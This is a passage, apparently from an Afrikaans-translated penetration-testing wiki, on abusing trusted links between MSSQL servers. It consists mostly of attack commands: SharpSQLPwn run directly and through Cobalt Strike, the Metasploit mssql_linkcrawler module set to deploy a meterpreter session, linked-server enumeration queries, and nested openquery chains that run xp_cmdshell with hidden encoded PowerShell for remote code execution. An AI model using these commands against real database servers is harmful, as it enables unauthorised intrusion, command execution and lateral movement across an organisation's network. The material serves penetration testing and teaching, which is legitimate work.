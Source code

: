 'n Ander soortgelyke hulpmiddel wat gebruik kan word, is [**https://github.com/lefayjey/SharpSQLPwn**](https://github.com/lefayjey/SharpSQLPwn):
```bash
SharpSQLPwn.exe /modules:LIC /linkedsql:<fqdn of SQL to exeecute cmd in> /cmd:whoami /impuser:sa
# Cobalt Strike
inject-assembly 4704 ../SharpCollection/SharpSQLPwn.exe /modules:LIC /linkedsql:<fqdn of SQL to exeecute cmd in> /cmd:whoami /impuser:sa
```
### Metasploit

Jy kan maklik vir vertroude skakels kyk met metasploit.
```bash
#Set username, password, windows auth (if using AD), IP...
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session
```
Let wel dat metasploit slegs die `openquery()` funksie in MSSQL sal probeer misbruik maak (so, as jy nie 'n opdrag met `openquery()` kan uitvoer nie, sal jy die `EXECUTE` metode **handmatig** moet probeer om opdragte uit te voer, sien meer hieronder.)

### Handmatig - Openquery()

Van **Linux** kan jy 'n MSSQL konsole skulp met **sqsh** en **mssqlclient.py** verkry.

Van **Windows** kan jy ook die skakels vind en opdragte handmatig uitvoer met 'n **MSSQL kliënt soos** [**HeidiSQL**](https://www.heidisql.com)

_Registrasie met Windows-outeentifikasie:_

![](<../../images/image (808).png>)

#### Vind Betroubare Skakels
```sql
select * from master..sysservers;
EXEC sp_linkedservers;
```
![](<../../images/image (716).png>)

#### Voer navrae uit in betroubare skakel

Voer navrae uit deur die skakel (voorbeeld: vind meer skakels in die nuwe toeganklike instansie):
```sql
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
```
> [!WARNING]
> Kyk waar dubbel en enkel aanhalingsmerke gebruik word, dit is belangrik om dit op daardie manier te gebruik.

![](<../../images/image (643).png>)

Jy kan hierdie vertroude skakelketting handmatig vir ewig voortset.
```sql
# First level RCE
SELECT * FROM OPENQUERY("<computer>", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')

# Second level RCE
SELECT * FROM OPENQUERY("<computer1>", 'select * from openquery("<computer2>", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')
```
As jy nie aksies soos `exec xp_cmdshell` vanaf `openquery()` kan uitvoer nie, probeer die `EXECUTE` metode.
